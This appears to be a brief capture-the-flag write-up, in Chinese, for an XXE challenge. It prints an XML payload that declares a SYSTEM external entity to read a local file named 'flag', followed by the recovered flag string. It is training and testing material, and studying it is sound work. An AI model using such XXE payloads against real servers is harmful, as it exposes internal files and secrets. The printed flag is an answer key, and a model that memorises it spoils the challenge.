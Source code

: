 # XXE [50]

XXE 攻擊練習。SYSTEM 會讀內部檔案，下列構造可以得知檔案內容。

```
<!DOCTYPE kaibro[
  <!ENTITY xxe SYSTEM "flag">
]>
<root>&xxe;</root>
```

`FLAG{XXE}`
